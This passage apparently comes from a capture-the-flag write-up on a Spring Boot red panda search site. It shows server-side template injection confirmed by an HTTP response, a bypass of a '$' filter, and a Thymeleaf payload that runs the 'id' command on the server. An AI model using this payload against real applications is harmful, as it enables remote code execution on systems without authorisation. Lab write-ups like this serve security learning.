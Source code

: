 And the results contained `49` instead of `#{7*7}`

```http
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Date: Sat, 27 Aug 2022 14:37:35 GMT
Connection: close
Content-Length: 735

<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title>Red Panda Search | Made with Spring Boot</title>
    <link rel="stylesheet" href="css/search.css">
  </head>
  <body>
    <form action="/search" method="POST">
    <div class="wrap">
      <div class="search">
        <input type="text" name="name" placeholder="Search for a red panda">
        <button type="submit" class="searchButton">
          <i class="fa fa-search"></i>
        </button>
      </div>
    </div>
  </form>
    <div class="wrapper">
  <div class="results">
    <h2 class="searched">You searched for: ??49_en_US??</h2>
      <h2>There are 0 results for your search</h2>
       
    </div>
    </div>
    
  </body>
</html>
```

I looked for ways to run commands with this. The site advertised in its title that it's built with [Spring Boot](https://spring.io/projects/spring-boot) so I knew it used Java. Most of the [examples I found](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/) use `${command}` to send commands. But `$` was forbidden. So I had to find something else.

By trying different syntaxes, I found that I could use `#{command}` instead.

I tried to get the user running the server.

```
name=*{T(java.lang.Runtime).getRuntime().exec('id')}
```

And it returned information about the process that was launched.
